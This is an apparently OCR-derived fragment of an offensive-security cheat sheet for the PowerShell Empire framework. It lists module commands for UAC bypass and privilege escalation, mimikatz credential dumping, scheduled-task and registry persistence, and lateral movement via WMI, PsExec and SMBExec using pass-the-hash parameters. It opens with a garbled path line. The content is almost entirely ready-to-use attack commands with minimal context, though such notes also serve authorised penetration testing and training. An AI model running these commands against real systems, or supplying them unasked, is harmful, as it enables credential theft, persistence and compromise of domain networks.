             -   upload

            -   download

            -   Empire modules

                -   usemodules \<doubletab\> -\> show all modules

                -   usemodue \[modulename\]    {info \| run \| back}

                -   searchmodule \[name\] -\> search a module

        -   **Module examples**

            -   **Privilege escalation modules**

            -   usemodule powershell/privesc/powerup/allchecks

            -   usemodule privesc/bypassuac\_fodhelper

            -   **credential harvesting modules**

                -   usemodule credentials/ \<double tab\>

                -   usemodule credentials/mimikatz/logonpasswords   &&  sekurlsa::logonpasswords

            -   **persistence modules**

                -   usemodule persistence/elevated/schtasks\*   

                    -   set OnLogon True

                -   usemodule persistence/userland/registry         

            -   **Active directory & pivoting modules**

                -   usemodule  situational\_awareness/network/find\_localadmin\_access  -\>  To find machines where you can PsExec

                -   usemodule  situational\_awareness/network/powerview/get\_user .   -\>  to enumerate users in a domain

                -   usemodule lateral\_movement/invoke\_wmi          -\> pivoting This module will let you install Empire agents on additional domain machines

                    -   set ComputerName \[TARGET\]

                -   usemodule lateral\_movement/invoke\_psexec.  -\> This module will let you install Empire agents on additional domain machines by manipulating the remote service manager to { create / configure / start } a   remove service

                -   usemodule lateral\_movement/invoke\_smbexec.  -\> active directory pivoting 

                    -   set Listener \[value\]

                    -   set computerName \[pc\_name\]

                    -   set Username \[Name\]

                    -   set Hash \[hash\]

                    -   set Domain \[Domain\_name\]

                    -   execute
